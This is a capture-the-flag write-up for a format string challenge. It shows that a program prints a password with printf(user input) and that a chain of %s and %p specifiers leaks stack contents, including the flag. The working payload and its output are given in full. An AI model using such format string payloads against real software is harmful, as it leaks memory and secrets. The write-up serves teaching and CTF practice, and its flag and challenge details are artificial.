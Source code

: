 # Formatting into the danger zone

> > Pwn - 300pts
> 
> The program asks for a password, but it seems it prints the supplied password in a dangerous manner. Are you able to extract the flag?
> 
> IP and port: `95.85.37.12:1337`
> 
> PS: This is a pwn assignment, but you are not expected to pwn the machine, only extract the flag
> PPS: connect using `nc <ip> <port>`
> 
> File: [format](./format)

## Writeup

After some digging, we discover that this is a format string bug, where the program prints the user's password using:
`printf(<user input>)`

And checking the application, we can see that the flag is located on the stack, which can be utilized to retrieve it.
After some trial and error, we discover the input string `%s %s %s %p %p %p %p %p %p %p %s %s` will pop the string off the stack and print it.

- `%p` pops a pointer of the stack and prints the value as hex
- `%s` pops a pointer of the stack and prints the string it points to

Meaning we can execute:

```
➤ echo "%s %s %s %p %p %p %p %p %p %p %s %s" | ./format
Enter password: You entered: %s %s %s %p %p %p %p %p %p %p %s %s
 H=  ���� 0x3 0xc2 0x56210837d260 0x78 0x2a6932febc0d3800 0x7ffe17e29a30 0x562106f069d3 (null) UiTHack{format_strings_can_be_scary}
Which was wrong..
```

Yielding the flag:

`UiTHack{format_strings_can_be_scary}`
